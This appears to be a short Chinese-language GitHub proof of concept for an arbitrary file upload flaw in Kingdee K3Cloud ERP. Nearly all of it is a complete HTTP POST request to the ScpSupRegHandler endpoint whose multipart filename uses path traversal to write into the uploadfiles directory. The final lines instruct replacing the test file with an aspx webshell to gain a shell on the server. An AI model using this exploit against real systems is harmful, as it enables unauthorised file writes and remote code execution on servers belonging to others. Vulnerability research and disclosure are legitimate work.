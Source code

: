 # 金蝶任意文件上传poc
访问接口  
http://127.0.0.1/k3cloud/SRM/ScpSupRegHandler  

POC：  
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1  
Host: 127.0.0.1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0   
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8   
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2   
Accept-Encoding: gzip, deflate, br  
Connection: keep-alive  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: none  
Sec-Fetch-User: ?1  
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061  
Content-Length: 1782  
--2ac719f8e29343df94aa4ab49e456061  
Content-Disposition: form-data; name="dbId_v"  
  
.  
--2ac719f8e29343df94aa4ab49e456061  
Content-Disposition: form-data; name="FID"  
  
2023  
--2ac719f8e29343df94aa4ab49e456061  
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/kingdee.txt"  
Content-Type: text/plain  
  
test  
--2ac719f8e29343df94aa4ab49e456061—-  

上传成功访问路径  
http://127.0.0.1/k3cloud/uploadfiles/kingdee.txt  
替换poc内上传内容为aspx马，提交上传getshell  
http://127.0.0.1/k3cloud/uploadfiles/kingdee.aspx
